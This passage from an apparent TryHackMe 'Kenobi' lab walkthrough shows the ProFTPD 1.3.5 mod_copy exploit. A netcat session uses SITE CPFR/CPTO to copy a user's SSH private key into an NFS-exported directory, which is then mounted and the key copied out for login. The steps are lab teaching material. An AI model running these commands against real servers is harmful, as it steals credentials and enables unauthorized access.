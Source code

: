 <br />

This gives us useful information about a mounted network file share that we can leverage later on.

<br />
<br />

## 3. Exploiting ProFTPD

<br />

The `ProFTPD` version running on the target is exploitable - We can get a full list using `searchsploit` or checking for this information online on [Exploit Database](https://www.exploit-db.com/) for example.

For the purposes of this box we will be using the `mod_copy` module which allows attackers to copy files and directories anywhere on the server.

Based on the information obtained by enumerating this box, we have the location of the SSH key for `kenobi` that we can copy to the mounted network file share which we can also mount locally.

Let's connect to the `ProFTPD` service and start by copying the file to a folder on the `nfs`.

```
╭─root@kali ~  
╰─➤  nc 10.10.15.240 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.15.240]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
quit
221 Goodbye.
```

<br />

Having successfully copied the file to the mounted share we can proceed to mount it locally.

```
╭─root@kali ~/TryHackMe/Machines/Kenobi  
╰─➤  mkdir kenobiNFS
╭─root@kali ~/TryHackMe/Machines/Kenobi  
╰─➤  mount 10.10.15.240:/var kenobiNFS
```

<br />

The drive is now accessible, our next step should therefore be to get a copy of the SSH key that we can use to access the target.

```
╭─root@kali ~/TryHackMe/Machines/Kenobi  
╰─➤  cp kenobiNFS/tmp/id_rsa .
╭─root@kali ~/TryHackMe/Machines/Kenobi  
╰─➤  chmod 600 id_rsa
```
